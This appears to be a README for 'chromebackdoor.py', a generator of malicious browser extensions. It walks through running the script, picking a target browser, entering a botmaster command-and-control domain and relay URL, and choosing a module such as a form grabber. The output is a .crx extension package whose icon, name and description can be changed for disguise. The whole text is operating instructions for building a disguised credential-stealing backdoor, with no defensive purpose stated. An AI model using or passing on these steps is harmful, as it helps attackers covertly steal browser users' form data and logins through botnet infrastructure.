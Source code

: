 #INSTALL

install all dependency & start chromebackdoor.py

```sh
python chromebackdoor.py
```

You can generate backdoor for all most popular browser

exemple for Google Chrome:

```sh
python chromebackdoor.py --chrome
```

Now enter a botmaster domain name (need SSL):

```bash
[?] Website hosted (https://localhost/)? https://lynxframework.com/
```
Same for relais (need SSL):
```sh
[?] Website relais url (https://localhost/relais)? https://lynxrelay.com/relais
or use same domain
[?] Website relais url (https://localhost/relais)? https://lynxframework.com/relais
```
```sh
[?] Information correct [Y/n]? Y
```

Select one module (exemple FormGrabber V1.0)
```sh
[?] please select numbers ? 2
```

The script  generate zip file with .crx .perm and backdoor folder for update icon / name / desc
